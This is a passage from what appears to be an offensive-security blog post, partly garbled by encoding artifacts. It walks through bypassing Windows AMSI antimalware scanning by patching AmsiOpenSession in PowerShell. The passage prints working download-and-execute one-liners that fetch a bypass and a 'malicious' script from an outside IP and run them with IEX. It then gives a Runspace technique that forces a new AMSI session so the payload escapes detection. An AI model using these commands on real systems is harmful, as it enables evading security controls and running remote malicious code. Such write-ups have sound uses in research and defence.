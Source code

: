 ![image17.png]({{site.baseurl}}/_posts/images/image17.png)



We restart PowerShell, and now try to combine this bypass with our
malicious script, on the same line, as done earlier:

```
$full =3D (New-Object Net.Webclient).downloadstring("
http://192.168.159.131/rastamouse/full2.txt"); IEX($full.substring(0,583));
IEX($full.substring(583,60)); IEX($full.substring(643,126)); (New-Object
Net.Webclient).downloadstring("
http://192.168.159.131/rastamouse/malicious.txt")|IEX
```
![image18.png]({{site.baseurl}}/_posts/images/image18.png)


So what happened here? It looks like the bypass worked, since commands on
subsequent prompts don't get caught. However, our =E2=80=9Cmalicious=E2=80=
=9D script that
we tried to run on the same prompt as the bypass gets caught.

Remember that the exact same technique applied with an AmsiScanBuffer patch
worked fine.

Our problem here is that, although we patched AmsiOpenSession, our
malicious command is being run within the same AMSI session as the patch.
A simplified view of what happens behind the scenes is shown below:

```
AmsiOpenSession()

AmsiScanBuffer(1-liner)
AmsiScanBuffer(bypass part 1)
AmsiScanBuffer(bypass part 2)
AmsiScanBuffer(bypass part 3)
AmsiScanBuffer(malicious script)

AmsiCloseSession()
```


We don't run the patched AmsiOpenSession until the next prompt, which
explains why the bypass doesn't work for our malicious script but works
thereafter.

The solution is to use a Runspace to force a new AMSI session to open. The
script below is the same as prior, but using the AmsiOpenSession bypass,
and adding our malicious script.

```
$Runspace =3D [runspacefactory]::CreateRunspace()
$Runspace.Open()

$PowerShell =3D [powershell]::Create()
$PowerShell.runspace =3D $Runspace
$PowerShell.AddScript({$full =3D (New-Object Net.Webclient).downloadstring(=
"
http://192.168.159.131/rastamouse/full2.txt")}).Invoke();

$PowerShell.Commands.Clear()
$PowerShell.AddScript({IEX($full.substring(0,583))}).Invoke();

$PowerShell.Commands.Clear()
$PowerShell.AddScript({IEX($full.substring(583,60))}).Invoke();

$PowerShell.Commands.Clear()
$PowerShell.AddScript({IEX($full.substring(643,126))}).Invoke();

```